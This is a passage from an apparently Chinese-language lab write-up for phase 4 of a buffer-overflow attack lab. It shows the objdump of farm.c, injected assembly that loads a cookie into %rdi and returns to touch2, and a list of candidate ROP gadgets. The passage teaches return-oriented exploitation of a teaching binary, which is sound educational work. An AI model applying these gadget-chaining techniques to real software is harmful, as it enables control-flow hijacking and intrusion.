 #### phase4

```shell
gcc -c -Og farm.c
objdump -d farm.o > farm.asm
```



依然是要调用touch2

```assembly
mov $0x59b997fa, %rdi
pushq $0x4017ec
retq
```

```assembly
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```



advice中提醒我们使用两端gadgets就能实现，而且是在start_farm和mid_farm中寻找

```assembly
0000000000000006 <getval_142>:
   6:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
   b:	c3                   	retq   

000000000000000c <addval_273>:
   c:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  12:	c3                   	retq   

0000000000000013 <addval_219>:
  13:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  19:	c3                   	retq   

000000000000001a <setval_237>:
  1a:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  20:	c3                   	retq   

0000000000000021 <setval_424>:
  21:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  27:	c3                   	retq   

0000000000000028 <setval_470>:
  28:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  2e:	c3                   	retq   

000000000000002f <setval_426>:
  2f:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  35:	c3                   	retq   

0000000000000036 <getval_280>:
  36:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  3b:	c3                   	retq  
```
